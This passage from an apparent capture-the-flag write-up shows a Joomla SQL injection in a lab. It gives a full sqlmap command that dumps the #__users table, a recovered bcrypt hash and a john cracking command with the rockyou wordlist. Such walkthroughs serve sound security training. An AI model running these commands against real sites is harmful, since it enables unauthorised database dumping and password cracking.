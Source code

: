 Once sqlmap is done, we find out that there are a total of 72 tables located within the 'joomla' database. Since we are trying to find out Jonah's password, the table that we are especially interested in is the **#__users** table. 

Now, we update our sqlmap command again so as to dump out the contents of this table. We use `-T` to specify the table and `--dump` to dump out all of the data.

```
sqlmap -u "http://10.10.172.68/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T '#__users' --dump
```

At first, sqlmap was unable to retrieve the column names for the table and thus, could not dump all the table content. Fortunately for us, sqlmap allows us to run a common columns existence check using a wordlist. It also provides us with a default wordlist to use, which is all we need in this case.

**Results:**

![screenshot10](../assets/images/daily_bugle/screenshot10.png)

With that, we are able to enumerate the credentials of Jonah and obtain his hashed password:

> $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm

To crack the password, we can use `john`. 

From the format of the hash, we know that it was hashed using the bcrypt algorithm. We save this hash to a text file and run `john` against it with the rockyou wordlist:

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```
